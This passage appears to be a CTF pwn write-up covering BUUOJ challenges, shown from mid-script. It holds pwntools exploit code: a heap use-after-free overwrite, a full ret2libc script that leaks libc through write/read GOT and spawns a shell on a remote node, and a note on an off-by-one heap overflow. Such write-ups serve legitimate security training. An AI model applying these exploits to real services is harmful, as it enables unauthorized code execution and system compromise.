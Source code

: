 ```python
def Show(index):
        r.sendlineafter('u choice :\n','3')
        r.sendlineafter('Index :',str(index))


Add(0x20,'aaaa')
Delete(0)
Add(0x10,'a'*8+p64(backdoor_addr))
gdb.attach(r)
Show(0)

r.interactive()
```

## jarvisoj_level1
ret2libc
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

r=remote('node3.buuoj.cn',26434)
#r=process('./level1')
elf=ELF('./level1')
read_got=elf.got['read']
write_plt=elf.plt['write']
main_addr=elf.sym['main']

payload='a'*0x88+'bbbb'
payload+=p32(write_plt)+p32(main_addr)+p32(1)+p32(read_got)+p32(4)
r.sendline(payload)

read_addr=u32(r.recv(4))
print hex(read_addr)

libc=LibcSearcher('read',read_addr)
libc_base=read_addr-libc.dump('read')
system_addr=libc_base+libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')

payload='a'*0x88+'bbbb'
payload+=p32(system_addr)+p32(main_addr)+p32(bin_addr)
r.sendline(payload)

r.interactive()
```

## hitcontraining_heapcreator
在edit_heap函数中存在off by one 漏洞
```c
read_input(*((_QWORD *)heaparray[v1] + 1), *(_QWORD *)heaparray[v1] + 1LL);// 溢出一字节 
```

